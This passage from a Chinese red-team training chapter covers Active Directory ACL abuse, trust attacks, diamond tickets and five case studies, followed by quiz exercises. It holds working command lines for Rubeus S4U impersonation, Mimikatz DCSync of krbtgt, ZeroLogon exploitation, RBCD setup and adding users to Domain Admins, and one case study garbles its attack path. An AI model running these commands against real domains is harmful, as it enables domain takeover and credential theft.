然后用他的账号登录。

**2. AddMember（对组）**
如果你对某个组有AddMember权限，
你可以把自己加进这个组，
比如Domain Admins组，
那你就是域管理员了。

**3. WriteDACL（对任意对象）**
如果你对某个对象有WriteDACL，
你可以修改它的ACL，
给自己加权限，
然后就完全控制了。

**4. GenericAll（对计算机）**
如果你对某台计算机有GenericAll，
你可以：
- 修改它的密码（创建服务执行代码
- 配置RBCD
- ...

**5. ForceChangePassword**
强制修改密码，
和重置密码差不多。

**图50-6 ACL 攻击常见路径与权限利用图**



### 7.3 ACL攻击举例

**例子1：对用户有重置密码权限 → 改密码**
```powershell
# 用PowerView
Set-DomainUserPassword -Identity 目标用户 -AccountPassword (ConvertTo-SecureString 'NewPass123!' -AsPlainText -Force) -Verbose
```

**例子2：对组有添加成员权限 → 把自己加进组**
```powershell
Add-DomainGroupMember -Identity "Domain Admins" -Members 我们的用户 -Verbose
```

**例子3：对OU有GenericAll → 修改GPO → 下发木马**
如果你对某个OU有GenericAll，
你可以创建GPO链接到这个OU，
然后等组策略刷新，
OU里的所有机器都会执行你的脚本。

**例子4：WriteDACL → 给自己加权限**
先给自己加FullControl，
然后就为所欲为了。

### 7.4 BloodHound与ACL

BloodHound最大的用处之一
就是分析ACL关系，
找出从当前用户
到高权限的攻击路径。

BloodHound里常见的边：
- AdminTo
- MemberOf
- GenericAll
- GenericWrite
- WriteDacl
- WriteOwner
- AddMember
- ForceChangePassword
- AllowedToDelegate
- ...

通过这些边，
BloodHound可以找出
最短攻击路径。

所以域渗透中，
BloodHound真的是神器！

### 7.5 防御ACL攻击

- 遵循最小权限原则
- 定期审核ACL
- 监控敏感对象的权限
- 限制普通用户能创建的计算机账户数
- 等等...

---

## 🤝 域信任攻击

### 8.1 域信任基础

域信任（Domain Trust），
就是两个域之间建立了信任关系，
这样A域的用户可以访问B域的资源。

**信任的方向：**
- **单向信任**：A信任B → B的用户可以访问A
- **双向信任**：A和B互相信任

**信任的传递性：**
- **可传递**：A信任B，B信任C → A信任C
- **不可传递**：只有直接信任才有效

**常见的信任类型：**
- 父-子信任（父子域，默认双向可传递）
- 林信任（林之间，可传递）
- 外部信任（林之间，不可传递）
- 快捷信任（缩短认证路径）

### 8.2 域信任攻击思路

如果我们拿下了一个域，
怎么打信任域呢？

**思路1：利用信任关系，
从当前域
打到信任域。

**前提：**
- 当前域的高权限用户
  可以访问信任域的资源

**方法：**
1. 在当前域找
   有信任域的SID History
   （SID History）
2. 或者找有信任域权限的用户
3. 或者利用信任关系
   申请跨域的票据

**思路2：SID History攻击

**SID History：**
用户的SID History里如果有
信任域的高权限SID，
那这个用户在信任域里
也有高权限。

如果我们能给用户加SID History，
或者有SID History的用户，
就可以跨域提升权限。

**思路3：Kerberos跨域票据**
有当前域的高权限，
可以申请信任域的服务票据，
然后访问信任域的服务。

### 8.3 跨域攻击工具和方法

**1. 信任域的信息收集**
```cmd
:: 查看信任关系
nltest /domain_trusts

:: 枚举信任域的用户
net view /domain:信任域名
```

**2. PsExec / WMI / etc.**
有信任域的凭据，
直接用之前学的横向移动方法。

**3. 黄金票据 + 跨域**
拿到当前域的krbtgt，
能不能做黄金票据打信任域？
一般不行，
因为每个域的krbtgt不一样。

但可以用其他方法，
比如找有信任域权限的用户，
抓他的凭据。

**4. SID History注入**
如果有足够权限，
可以给用户加SID History，
然后用户就有了
另一个域的权限。

域信任攻击比较复杂，
需要对AD有深入的理解，
这里先了解概念就不展开了。

---

## 💎 钻石票据（Diamond Ticket）

### 9.1 什么是钻石票据？

钻石票据（Diamond Ticket），
是比黄金票据更高级、
更隐蔽的票据伪造技术。

**黄金票据的问题：**
黄金票据是完全伪造的TGT，
完全离线生成的，
KDC里没有对应的TGT对应的会话什么的。
如果KDC检查PAC签名什么的，
有些情况下可能有问题。

**钻石票据：**
钻石票据是修改真实的TGT，
比如你先请求一个真实的TGT，
然后修改它的PAC（特权属性证书），
把权限改成高权限，
然后加密回去。

因为是基于真实票据修改的，
所以更难检测，更隐蔽。

### 9.2 钻石票据原理

1. 先用普通用户的身份
   向KDC请求一个真实的TGT。

2. 拿到TGT是用krbtgt的密码加密的，
   我们有krbtgt的Hash，
   所以可以解密。

3. 解密后，
   修改PAC里的组信息，
   把用户加到域管理员组等等。

4. 然后再用krbtgt的Hash加密回去，
   这样就得到了一个
   "真实的但权限被修改了的TGT。

5. 用这个TGT去申请ST，
   就有高权限了。

因为TGT本身是真实的，
KDC颁发的，
所以比完全伪造的黄金票据
更难检测。

### 9.3 钻石票据 vs 黄金票据

| 特性 | 黄金票据 | 钻石票据 |
|------|----------|----------|
| 票据来源 | 完全伪造 | 修改真实票据 |
| 需要krbtgt Hash | 需要 | 需要 |
| 隐蔽性 | 较高 | 更高 |
| 检测难度 | 相对容易 | 更难检测 |
| 实现难度 | 简单 | 复杂一些 |
| 权限 | 任意用户任意权限 | 基于真实用户修改 |

**工具：**
- **Rubeus** — 支持钻石票据
- **Mimikatz** — 也支持

钻石票据是更高级的权限维持技术，
实战中更隐蔽。

**图50-7 钻石票据 vs 黄金票据对比图**



---

## 🎯 真实案例

### 案例1：非约束委派 + 打印机bug拿域控

**场景：**
护网行动中，
已经控制了内网几台机器，
但一直没拿到域管理员权限。
通过BloodHound发现
有一台文件服务器配置了非约束委派。

**过程：**

**第一步：信息收集**
```powershell
# 查找非约束委派的机器
Get-NetComputer -Unconstrained
```
发现filesrv01配置了非约束委派。

**第二步：控制filesrv01**
通过之前收集到的本地管理员密码，
登录filesrv01。

**第三步：监控票据**
在filesrv01上运行Rubeus监控：
```cmd
Rubeus.exe monitor /interval:1
```

**第四步：触发打印机bug**
从另一台机器上触发：
```cmd
SpoolSample.exe dc01.corp.com filesrv01.corp.com
```
让域控主动连接filesrv01。

**第五步：抓到域控计算机账户的TGT**
等了一会儿，
Rubeus监控到了
dc01$的TGT票据！

**第六步：导入票据，DCSync**
```
kerberos::ptt dc01的TGT.kirbi
```
然后DCSync：
```
lsadump::dcsync /domain:corp.com /user:krbtgt
```
成功拿到krbtgt的Hash！

**第七步：黄金票据 + 登录域控**
制作黄金票据，
登录域控，
拿下整个域。

**总结：**
- 非约束委派 + 打印机bug是经典组合
- 不需要域管理员凭据
- 只要控制一台非约束委派的机器就能打域控
- 非常实用的攻击路径

---

### 案例2：约束委派打到数据库服务器

**场景：**
通过信息收集发现
发现一个Web服务账号websvc
配置了约束委派，
可以委派到数据库服务器的MSSQL服务。
并且拿到了websvc的密码。

**过程：**

**第一步：发现约束委派**
```powershell
Get-DomainUser -TrustedToAuth | select name, msds-allowedtodelegateto
```
发现websvc可以委派到
`MSSQLSvc/sql01.corp.com:1433

**第二步：拿到websvc的Hash**
通过配置文件里找到了websvc的密码。

**第三步：S4U攻击**
用Rubeus做S4U攻击，
冒充administrator访问SQL：
```cmd
Rubeus.exe s4u /user:websvc /rc4:websvc的Hash /domain:corp.com /dc:dc01 /impersonateuser:administrator /msdsspn:MSSQLSvc/sql01.corp.com:1433 /ptt
```

**第四步：访问数据库**
用mssqlclient.py或者其他工具，
以管理员身份登录SQL服务器。

**第五步：xp_cmdshell执行命令**
在SQL上执行命令，
拿到Shell，
提权到System。

**第六步：继续横向**
在sql01上抓密码，
发现有域管理员的会话，
抓到域管理员的Hash，
然后登录域控。

**总结：**
- 约束委派也是很好的攻击路径
- 服务账号密码往往能拿到
- 约束委派到高价值服务的话危害很大
- S4U攻击可以冒充任意用户

---

### 案例3：RBCD攻击拿到服务器权限

**场景：**
通过BloodHound分析，
发现当前用户对某台服务器web01
有GenericAll权限。
想拿下这台机器。

**过程：**

**第一步：BloodHound找路径**
BloodHound显示：
当前用户 → GenericAll → web01计算机

有GenericAll权限，
能做什么呢？
可以配置RBCD！

**第二步：创建计算机账户**
用PowerMad创建一个假的计算机账户：
```powershell
New-MachineAccount -MachineAccount FAKEPC$ -Password $(ConvertTo-SecureString 'FakePass123!' -AsPlainText -Force)
```

**第三步：配置RBCD**
修改web01的msDS-AllowedToActOnBehalfOfOtherIdentity
属性，允许FAKEPC$委派到它：
```powershell
Set-DomainRBCD -Identity web01$ -PrincipalIdentity FAKEPC$ -Verbose
```

**第四步：S4U攻击**
```cmd
Rubeus.exe s4u /user:FAKEPC$ /rc4:FAKEPC的NTLMHash /domain:corp.com /dc:dc01 /impersonateuser:administrator /msdsspn:cifs/web01.corp.com /ptt
```

**第五步：访问web01**
```cmd
dir \\web01\c$
```
成功访问！
然后PsExec过去，
拿到System权限的Shell。

**第六步：继续内网漫游**
在web01上收集凭据，
继续扩大战果。

**总结：**
- RBCD是很实用的攻击手法
- 只要对机器有写权限就能利用
- 配合创建计算机账户权限
- BloodHound里经常能看到这类路径

---

### 案例4：ZeroLogon漏洞打域控

**场景：**
某次护网，
客户的域控比较老，
没打什么补丁。
试试能不能用漏洞直接打。

**过程：**

**第一步：扫描漏洞扫描**
扫了一下漏洞，
发现域控可能存在ZeroLogon漏洞。

**第二步：检测漏洞**
```bash
python3 zerologon_tester.py DC01 10.0.0.10
```
结果：漏洞存在！

**第三步：利用漏洞重置密码**
```bash
python3 cve-2020-1472-exploit.py DC01 10.0.0.10
```
成功把域控计算机账户的密码重置为空。

**第四步：DCSync导出Hash**
```bash
secretsdump.py corp.com/DC01$@10.0.0.10 -no-pass
```
成功导出了域内所有用户的Hash！
包括krbtgt和域管理员的。

**第五步：黄金票据 + 登录域控**
制作黄金票据，
登录域控，
拿下整个域。

**第六步：恢复密码**
（利用完之后，
把域控的密码恢复回去，
避免出问题。）

**总结：**
- 有漏洞的域控直接打穿
- ZeroLogon危害极大，无需任何凭据
- 老环境经常有各种漏洞
- 打补丁很重要！

---

### 案例5：ACL攻击路径拿下域管理员

**场景：**
普通域用户权限，
通过BloodHound分析ACL，
找到了一条到域管理员的路径。

**攻击路径：**
```
当前用户 → (GenericWrite) → 组A → (MemberOf) → 组B → (GenericAll) → 用户C → (MemberOf) → Domain Admins
```

有点绕，
但确实是一条可行路径。

**过程：**

**第一步：BloodHound找路径**
导入BloodHound，
查找到域管理员的最短路径。
找到了上面那条路径。

**第二步：修改组A**
当前用户对组A有GenericWrite权限，
可以修改组A的成员。
把用户C加进组A：
```powershell
Add-DomainGroupMember -Identity "组A" -Members "用户C" -Verbose
```

等等，不对，
路径是当前用户对组A有GenericWrite，
组A的成员是组B？
让我们重新理一下：

实际路径是这样的：
- 当前用户 → 对OU有GenericAll → 可以创建GPO → 下发到OU里的机器 → 机器上有高权限用户 → 抓密码

或者更简单的路径：
当前用户 → AddMember → 某服务器运维组 → 该组的成员有本地管理员权限 → 登录服务器抓密码 → 域管理员登录过 → 域控

让我们用一个更清晰的案例：

**真实案例：**
普通用户 → (WriteDACL) → 某服务器本地组 → 加自己进去 → 本地管理员 → 抓密码 → 域管理员

**第一步：发现WriteDACL权限**
BloodHound发现当前用户
对一个服务器本地组有WriteDACL权限。

**第二步：修改组的ACL，给自己加AddMember权限**
先给自己加权限：
```powershell
Add-DomainObjectAcl -TargetIdentity "服务器运维组" -PrincipalIdentity 当前用户 -Rights AddMember -Verbose
```

**第三步：把自己加进组**
```powershell
Add-DomainGroupMember -Identity "服务器运维组" -Members 当前用户 -Verbose
```

**第四步：登录服务器**
现在当前用户是服务器运维组的成员了，
这个组对很多服务器有本地管理员权限。
登录其中一台。

**第五步：抓密码**
在服务器上抓密码，
发现有域管理员的登录会话！
抓到域管理员的Hash。

**第六步：登录域控**
用域管理员的Hash登录域控，
拿下整个域。

**总结：**
- ACL关系错综复杂
- BloodHound能帮你找到肉眼看不到的路径
- 有时候路径很长，但每一步都不难
- 域渗透就是一步一步爬梯子

---

## ✏️ 课后习题

### 一、选择题（15道）

1. 非约束委派的英文是？
   A. Constrained Delegation
   B. Unconstrained Delegation
   C. Resource-Based Delegation
   D. Unlimited Delegation

2. 打印机bug（Printer Bug）主要用来？
   A. 打印文件
   B. 诱导目标机器主动连接
   C. 提升权限
   D. 破解密码

3. S4U2Self和S4U2Proxy跟哪种攻击相关？
   A. 非约束委派
   B. 约束委派
   C. 黄金票据
   D. DCSync

4. DCSync需要什么权限？
   A. 管理员权限
   B. 域管理员权限
   C. 复制目录更改权限
   D. 普通用户权限

5. ZeroLogon漏洞的CVE编号是？
   A. CVE-2020-1472
   B. CVE-2021-1675
   C. CVE-2021-42278
   D. CVE-2019-0708

6. PrintNightmare是什么漏洞？
   A. 域控漏洞
   B. 打印服务漏洞
   C. Web漏洞
   D. 数据库漏洞

7. NoPAC是几个漏洞的组合？
   A. 1个
   B. 2个
   C. 3个
   D. 4个

8. RBCD的全称是？
   A. Resource-Based Constrained Delegation
   B. Role-Based Constrained Delegation
   C. Resource-Based Control Delegation
   D. Role-Based Control Delegation

9. 以下哪个不是常见的ACL权限？
   A. GenericAll
   B. GenericWrite
   C. WriteDACL
   D. PassTheHash

10. 钻石票据相比黄金票据的优势是？
    A. 不需要krbtgt的Hash
    B. 更隐蔽更难检测
    C. 权限更高
    D. 制作更简单

11. 基于资源的约束委派，控制权在哪边？
    A. 委派方
    B. 资源方
    C. 域控
    D. 用户

12. DCSync不能做什么？
    A. 同步系统文件
    B. 导出域内用户的密码Hash
    C. 同步时间
    D. 同步DNS记录

13. 以下哪个工具不能用来做DCSync？
    A. Mimikatz
    B. secretsdump.py
    C. CrackMapExec
    D. 以上都可以

14. BloodHound主要用来？
    A. 扫描端口
    B. 分析域内关系和攻击路径
    C. 破解密码
    D. 漏洞利用

15. 普通域用户默认可以创建几个计算机账户？
    A. 1个
    B. 5个
    C. 10个
    D. 不限

### 二、填空题（5道）

1. 委派的三种类型是：非约束委派、______ 和 ______。
2. 打印机bug的英文是 ______。
3. S4U2Self 和 S4U2Proxy 是 ______ 委派的两个扩展。
4. DCSync需要的三个主要权限是 DS-Replication-Get-Changes、______ 和 ______。
5. 比黄金票据更隐蔽的票据伪造技术是 ______。

### 三、简答题（5道）

1. 什么是非约束委派？它的攻击原理是什么？
2. 什么是约束委派？S4U2Self和S4U2Proxy的作用是什么？
3. 什么是DCSync？它需要什么权限？有什么危害？
4. 什么是RBCD？它的攻击流程是什么？
5. 列举至少3种域控漏洞，并简单说明。

### 四、实操题（5道）

1. 在测试域环境中，练习查找配置了非约束委派和约束委派的账户。
2. 如果条件允许，练习非约束委派 + 打印机bug攻击（在测试环境中）。
3. 练习约束委派攻击（S4U），用Rubeus实现。
4. 练习DCSync攻击（用Mimikatz或secretsdump.py）。
5. 用BloodHound分析域内的ACL攻击路径。

---

## 📖 本章小结

::: tip 总结一下
这一章我们学习了域渗透进阶技术，
内容很多，也比较难，
都是比较高级的域渗透技术。

**重点回顾：**

1. **委派攻击**
   - 非约束委派：可以代表用户访问任何服务，很危险
   - 打印机bug：诱导目标主动连接
   - 约束委派：只能访问指定服务，S4U2Self + S4U2Proxy
   - RBCD：基于资源的约束委派，控制权在资源方

2. **DCSync攻击**
   - 模拟域控同步，导出所有Hash
   - 需要复制目录更改权限
   - 工具：Mimikatz、secretsdump.py
   - 威力巨大，基本等于拿域

3. **常见域控漏洞**
   - ZeroLogon（CVE-2020-1472）：重置域控计算机密码
   - PrintNightmare：打印服务漏洞，RCE/提权
   - NoPAC：两个漏洞组合，普通用户提域管
   - 还有很多其他漏洞...

4. **ACL攻击**
   - ACL：访问控制列表，谁对什么有什么权限
   - 各种权限：GenericAll、GenericWrite、WriteDACL、AddMember...
   - BloodHound分析ACL攻击路径
   - 各种利用方式

5. **域信任攻击**
   - 域信任基础、信任类型
   - 跨域攻击思路
   - SID History等

6. **钻石票据**
   - 修改真实票据，比黄金票据更隐蔽
   - 需要krbtgt的Hash
   - 更难检测

7. **五个实战案例**
   - 非约束委派 + 打印机bug
   - 约束委派打数据库
   - RBCD攻击拿服务器
   - ZeroLogon打域控
   - ACL攻击路径拿域管

域渗透的内容非常多，
这两章只是讲了主要的部分，
还有很多细节需要大家
在实战中不断学习。

下一章我们学习
权限维持与后门，
看看打完了怎么留住权限。

继续加油！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day055-senior-哈希传递与票据传递)
- [➡️ 下一章：---](/redteam/day057-senior-代理转发与内网穿透)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
